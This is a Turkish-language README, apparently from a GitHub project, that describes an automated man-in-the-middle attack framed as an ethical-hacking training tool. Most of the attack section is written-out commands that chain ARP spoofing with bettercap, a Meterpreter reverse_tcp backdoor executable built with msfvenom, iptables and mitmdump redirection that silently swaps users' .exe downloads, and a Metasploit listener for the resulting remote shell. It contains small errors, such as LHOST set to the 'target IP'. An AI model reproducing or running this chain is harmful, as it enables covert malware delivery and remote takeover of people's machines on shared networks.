 
# 📜 Proje Açıklaması: Python ile Otomatikleştirilmiş MITM Sarlırısı

## 🔍 **Projenin Amacı**
Bu araç, **siber güvenlik uzmanlarına** ve **etik hacker'lara** yönelik geliştirilmiş bir eğitim simülasyonudur. Temel işlevleri:
- Ağ trafiğini manipüle ederek `.exe` indirmeleri yönlendirme
- ARP spoofing ile tam trafik denetimi
- Gerçekçi penetrasyon test senaryoları oluşturma

## 🛠️ **Nasıl Çalışır?**
İşte **MITM saldırısıyla EXE yönlendirme** için gereken tüm adımlar ve komutlar:

---

### 🔧 **1. Hazırlık Aşaması**
```bash
# Gerekliliklerin kurulumu (Kali Linux)
sudo apt update && sudo apt install -y mitmproxy bettercap metasploit-framework python3
```

### 🌐 **2. Ağ Dinleme Başlatma**
```bash
# Ağ arayüzünü belirleme (örnek: wlan0)
sudo bettercap -iface wlan0
```

### 🕵️♂️ **3. ARP Spoofing Aktivasyonu**
```bettercap
# Bettercap içinde çalıştırılacak komutlar
net.probe on
set arp.spoof.targets ***  # Hedef IP
set arp.spoof.fullduplex true
arp.spoof on
```

### 🎯 **4. Backdoor Oluşturma**
```bash
# Meterpreter payload üretimi
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Hedep IP LPORT=1234 -f exe -o /var/www/html/backdoor.exe
```

### 🚦 **5. Trafik Yönlendirme Kuralları**
```bash
# IP Tables ayarları
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

### ⚡ **6. MITM Proxy Başlatma**
```bash
./mitmdump -s mitm.py --mode transparent
```

### 📡 **7. Metasploit Dinleyici**
```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST ***; set LPORT 1234; exploit"
```

### 📌 **Önemli Notlar**
1. **IP Adresleri** kendi ağınıza göre değiştirilmeli
2. Sertifika hatası almamak için hedef cihazda `mitm.it`'den CA sertifikası yüklenmeli
3. Testler sadece **yasal ortamlarda** yapılmalıdır

---

Bu komutlar **Kali Linux 2023+** sürümlerinde test edilmiştir. Her adımın çıktılarını kontrol ederek ilerleyin! 💻

## 🌟 **Öne Çıkan Özellikler**
| Özellik | Açıklama |
|---------|----------|
| **Görünmez Yönlendirme** | Kullanıcılar orijinal dosyayı indirdiğini sanar |
| **SSL Bypass** | Mitm.it sertifikasıyla şifreli trafik çözülür |
| **Çoklu Hedef** | Tüm ağ veya tek cihaz seçilebilir |

**Örnek Kullanım Senaryoları**:
- Kurumsal ağ güvenlik testleri
- Siber güvenlik eğitimleri
- Zararlı yazılım davranış analizleri

## 💡 **Neden Önemli?**
- Şirketlerin **indirme güvenliği** zafiyetlerini test eder
- **Sosyal mühendislik** saldırılarının teknik ayağını simüle eder
- Güvenlik uzmanlarının **savunma mekanizmaları** geliştirmesine yardımcı olur

---

> "Bilgi güvenliği, savunma ve saldırı dinamiklerini anlamakla başlar." - Siber Güvenlik Manifestosu

---
